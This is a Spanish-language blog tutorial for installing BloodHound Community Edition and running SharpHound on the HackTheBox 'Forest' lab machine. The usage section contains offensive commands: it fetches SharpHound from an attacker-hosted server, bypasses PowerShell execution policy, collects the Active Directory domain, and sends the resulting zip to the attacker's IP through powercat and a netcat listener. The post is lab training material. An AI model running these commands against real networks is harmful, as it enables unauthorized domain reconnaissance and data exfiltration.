 
---
title: "Cómo Configurar BloodHound Community Edition"
summary: "Explicación rápida sobre cómo poner en funcionamiento BloodHound en unos minutos. Esta publicación incluye una guía de instalación paso a paso de **BloodHound**, así como la descarga de **SharpHound** y su carga en una máquina para mapear una red de Active Directory."
categories: ["Post","Blog",]
tags: ["post","bloodhound","sharphound"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

---

## BloodHound 
**BloodHound** es una herramienta poderosa y ampliamente utilizada en el campo de la ciberseguridad, particularmente para los evaluadores de penetración en entornos corporativos. Está diseñada para mapear y analizar las estructuras de Active Directory, ayudando a identificar configuraciones de seguridad incorrectas y posibles rutas de ataque que un adversario podría explotar para escalar privilegios u obtener acceso a recursos confidenciales.

**BloodHound** opera mediante la recopilación y visualización de relaciones dentro de un dominio de AD. Estas relaciones incluyen membresías de grupos, permisos de usuario, relaciones de confianza y más. La fortaleza de la herramienta radica en su capacidad para descubrir cadenas complejas de privilegios que podrían ser invisibles para los administradores que auditan manualmente la seguridad de AD.

Realizaremos una instalación rápida paso a paso de la versión comunitaria de **BloodHound**, así como un pequeño tutorial paso a paso sobre cómo ejecutar **BloodHound** y **SharpHound** tomando como ejemplo la máquina [Forest]({{< ref "/content/pt/post/forest/index.md" >}} "Forest") de HackTheBox. ¡Échale un vistazo si aún no lo has hecho!

¡Comencemos!

- - -
## Installation
Primero, necesitamos instalar _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Luego, crea el grupo _docker_ si no existe:

```bash
kali@kali:~$ sudo groupadd docker
```

Añade tu usuario al grupo _docker_:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Ahora, instala **docker-compose** desde [github](https://github.com/docker/compose/). Además, recuerda otorgarle derechos de ejecución al binario y agregarlo al directorio `/usr/bin`.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Por último, necesitamos copiar el archivo `docker-compose.yml` de **BloodHound** para guardarlo localmente:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** estará disponible en el puerto 8080.
- - -
## SharpHound
**SharpHound** es el componente de recopilación de datos de BloodHound. Es una herramienta de C# diseñada para recopilar información de entornos de Active Directory, que luego BloodHound utiliza para mapear y analizar rutas de ataque. SharpHound recopila datos como sesiones de usuario, membresías de grupos, listas de control de acceso (ACL) y relaciones de confianza, lo que brinda a los evaluadores de penetración y analistas de seguridad una vista detallada del entorno.

Los datos recopilados se almacenan en archivos JSON, que luego se importan a BloodHound para visualización y análisis. Juntos, SharpHound y BloodHound son un dúo poderoso para identificar y comprender las debilidades de seguridad en los dominios de AD.

- - -
## Uso de BloodHound y SharpHound

Primero, iniciemos sesión en **BloodHound**. Ya lo tenemos en ejecución, por lo que debemos acceder a él en `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> La primera vez que accedamos a **BloodHound**, necesitaremos ingresar la contraseña generada aleatoriamente que se encuentra en la ventana de terminal donde se está ejecutando `docker-compose`. Luego, necesitaremos cambiarla. El usuario predeterminado es **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Ahora, en la pestaña _Descargar recopiladores_, podemos descargar la última versión de **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Aquí, selecciona **SharpHound**, ¡y estamos casi listos para comenzar a recopilar datos! Solo quedan unos pocos pasos más:

![bloodhound4](/img/bloodhound/bloodhound4.png)

A continuación, carga el ejecutable **SharpHound** en la máquina Windows cuyo Active Directory deseas mapear. Desde nuestra máquina atacante, servimos **SharpHound** desde un servidor _Python_:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la máquina Windows, descargamos **SharpHound** con el siguiente comando:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

Después de transferirlo a la máquina Windows, podemos importarlo a PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Ahora, podemos ejecutar el script para recopilar toda la información del dominio. **SharpHound** se basa principalmente en consultas `LDAP` para recopilar datos de Active Directory. Dado que las consultas LDAP son una parte estándar de la comunicación de dominio, cualquier usuario autenticado en el dominio puede ejecutarlas, por lo que SharpHound no requiere privilegios administrativos para la mayoría de sus operaciones.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

Después de la ejecución, veremos un archivo **zip** con toda la información. Eso es lo que necesitamos transferir de vuelta a nuestra máquina atacante. El archivo .bin que **BloodHound** genera es un archivo binario que se utiliza como caché para datos preprocesados. Cuando importa archivos JSON recopilados por SharpHound en BloodHound, procesa los datos y los almacena en una base de datos Neo4j.

El archivo `.bin` sirve como caché local de estos datos procesados ​​para mejorar el rendimiento, pero no necesariamente necesitamos transferirlos de vuelta a nuestra máquina, por lo que lo ignoraremos.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

Podemos usar nuestro método de transferencia favorito, yo usaré `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

En nuestra máquina atacante, necesitamos abrir un receptor `netcat` para recibir los datos:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip
listening on [any] 4444 ...
connect to [10.10.14.18] de (DESCONOCIDO) [10.10.10.161] 50906
```

Una vez que tengamos el archivo zip en nuestra máquina, vamos a subirlo a **BloodHound**. Primero, presione la opción _Administración_.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Importe el archivo zip en la opción _Ingesta de archivos_, en la sección _Recopilación de datos_:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Haga clic y seleccione el archivo _zip_:

![bloodhound5](/img/bloodhound/bloodhound5.png)

¡Genial! Se subió con éxito.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Enseñar cómo hacer consultas con **BloodHound** no está dentro del alcance de esta publicación, pero ejecutemos una consulta rápida "_Shortest Paths to Domain Admins_" para verificar si la ingesta de datos fue exitosa.
![bloodhound7](/img/bloodhound/bloodhound7.png)

¡Funciona! Ahora tiene una instancia de **BloodHound** completamente funcional y en funcionamiento, lista para mapear y analizar su entorno de Active Directory.

## Detener la instancia

Detener la instancia es tan fácil como presionar `Ctrl+C` en la ventana de terminal donde se está ejecutando `docker-compose`.

![bloodhound8](/img/bloodhound/bloodhound8.png)

Si desea configurarlo nuevamente, simplemente ejecute `docker-compose up` y estará listo.

Espero que esta guía te haya resultado útil para configurar todo sin problemas, ya que configurar un entorno de **BloodHound** puede ser complicado al principio. ¡Pruébalo!